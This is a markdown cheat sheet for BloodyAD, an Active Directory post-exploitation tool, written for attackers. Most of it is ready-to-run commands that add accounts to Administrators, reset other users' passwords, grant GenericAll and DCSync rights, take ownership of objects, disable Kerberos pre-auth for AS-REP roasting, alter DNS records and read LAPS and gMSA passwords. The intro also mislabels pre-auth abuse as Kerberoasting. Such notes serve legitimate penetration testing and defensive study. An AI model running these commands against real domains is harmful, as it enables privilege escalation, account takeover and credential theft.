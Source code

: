 **BloodyAD** is a post-exploitation tool designed to manipulate Active Directory permissions and perform privilege escalation by abusing ACLs (Access Control Lists). It allows attackers to interact with the domain via LDAP and modify key attributes in user, group, or domain objects.

The tool supports:

- `GenericAll`
- `GenericWrite`
- `WriteDACL`
- `WriteOwner`
- `AddSelf`
- `AllExtendedRights` (e.g., reset password)
- `PreAuthNotRequired` abuse (Kerberoasting)


---

## Installation

```bash
sudo apt install bloodyad
```


---

## Basic Syntax

```bash
python bloodyAD.py --host <DC_IP> -u <user> -p <password> -d <domain> [command] [options]
```

If using NTLM hash:

```bash
-H <LM:NTLM>
```


---

## Abuse Scenarios

### Add User to a Group

Used when attacker has **GenericAll**, **GenericWrite**, or **AddSelf** on a group.

```bash
bloodyAD -d corp.local --host 172.16.1.5 -u Administrator -p :NTLMHASH add groupMember 'Administrators' test
```

---

### Reset Another User’s Password

Requires **ForceChangePassword** or **GenericAll**.

```bash
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :NTLMHASH set password targetuser NewPass123!
```

---

### Abuse WriteDACL

Allows editing ACLs to grant yourself **GenericAll**.

```bash
bloodyAD -d corp.local --host 172.16.1.5 -u Administrator -p :NTLMHASH add genericAll <modified_object> <principal_receiving_the_right>
```

---

### Abuse WriteOwner

Take ownership of an object, then modify its ACL.

```bash
bloodyAD -d corp.local --host 172.16.1.5 -u Administrator -p :NTLMHASH set object victim_user owner -v attacker
```

---

### Set PreAuthNotRequired (AS-REP Roasting)

Disable Kerberos pre-auth to enable AS-REP roasting.

```bash
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 add uac john.doe DONT_REQ_PREAUTH
```

---

### Enable/Disable Accounts

```bash
# Disable ACCOUNTDISABLE flag
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 remove uac john.doe ACCOUNTDISABLE
```

---

### DCSync Rights

Grant DCSync to an account.

```bash
bloodyAD -d corp.local --host 172.16.1.5 -u Administrator -p :NTLMHASH add dcsync administrator
```

---

### DNS Record Manipulation

```bash
# Add DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 add dnsRecord my_machine_name 192.168.10.48

# Remove DNS entry
bloodyAD -u stan.dard -p Password123! -d bloody.local --host 192.168.10.2 remove dnsRecord my_machine_name 192.168.10.48
```

---

### Read Sensitive Attributes

```bash
# GMSA password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'gmsaAccount$' --attr msDS-ManagedPassword

# LAPS password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 get object 'COMPUTER$' --attr ms-Mcs-AdmPwd
```

---

### Policy & Enumeration

```bash
# Machine quota
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr ms-DS-MachineAccountQuota

# Minimum password length
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr minPwdLength

# AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 get object 'DC=bloody,DC=local' --attr msDS-Behavior-Version
```

---

### Enumeration Examples

```bash
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get object Users --attr member

# Get all users
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type user

# Get all computers
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type computer

# Get all containers
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 get children 'DC=bloody,DC=local' --type container
```

---

## Summary of Rights

|Right|Description|Enables|
|---|---|---|
|**GenericAll**|Full control of object|Reset passwords, modify groups, change DACLs|
|**GenericWrite**|Write to attributes|Set SPNs, change passwords, add PreAuthNotRequired|
|**WriteDACL**|Modify ACL|Grant privileges to attacker|
|**WriteOwner**|Change ownership|Take control and later modify ACL|
|**AddSelf**|Add self to group|Escalate to privileged group|
|**ForceChangePassword**|Reset password w/o old one|Immediate account access|
|**PreAuthNotRequired**|Disable Kerberos pre-auth|AS-REP roasting|
